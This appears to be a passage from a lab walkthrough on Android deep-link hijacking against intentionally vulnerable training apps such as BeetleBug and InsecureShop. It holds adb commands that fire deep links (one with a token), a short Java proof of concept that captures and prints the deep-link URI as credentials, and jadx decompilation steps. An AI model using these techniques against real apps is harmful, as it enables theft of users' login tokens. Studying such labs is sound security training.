 **Exploit via adb:**

```bash
adb shell am start -a android.intent.action.VIEW -d "holiday://whatever.login/test?token=2100537c6456cd8a437f7734fad189a8"
```

**Exploit via PoC:**

```java
Uri deepLinkURL = getIntent().getData(); 
System.out.println("Credentials: " + deepLinkURL.toString());
```

**In `AndroidManifest.xml`:**

```xml
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <data android:scheme="holiday"/>
</intent-filter>
```

### App 2: BeetleBug

**Step 1:** Decompile the app using tools like Jadx.

*   **Command:**

    ```bash
    jadx -d output_folder BeetleBug.apk
    ```

**Step 2:** Open `AndroidManifest.xml` to identify intent filters.

**Found Intent Filter:**

```xml
<intent-filter>
    <action android:name="android.intent.action.VIEW"/>
    <category android:name="android.intent.category.DEFAULT"/>
    <category android:name="android.intent.category.BROWSABLE"/>
    <data android:scheme="https" android:host="beetlebug.com" android:pathPrefix="/account"/>
</intent-filter>
```

**Exploit via adb:**

```bash
adb shell am start -a android.intent.action.VIEW -d "https://beetlebug.com/account"
```

### App 3: InsecureShop

**Step 1:** Decompile the app using tools like Jadx.

*   **Command:**
